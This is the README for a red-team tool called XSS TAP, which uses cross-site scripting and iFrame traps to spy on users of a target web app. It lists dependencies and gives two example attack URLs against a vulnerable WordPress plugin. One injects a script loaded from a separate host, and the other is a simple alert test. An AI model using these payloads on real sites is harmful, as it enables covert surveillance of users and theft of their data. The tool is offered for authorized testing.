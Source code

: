 # XSS TAP
Tailored XSS payload that uses iFrame traps to spy on user. Intended for redteam ops. 
@hoodoer

This tool is intended to be used on systems you are authorized to attack.
Do not use this tool for illegal purposes, or I will be very angry in your general direction. 
@hoodoer


Pip requirements: 

Server ones:
flask
flask-cors

Generator ones:
dataframe_image
fpdf
progressbar


HTML Parser:
bs4


https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27http://localhost:8444/lib/telemlib.js%27%3E%3C/script%3E


https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E


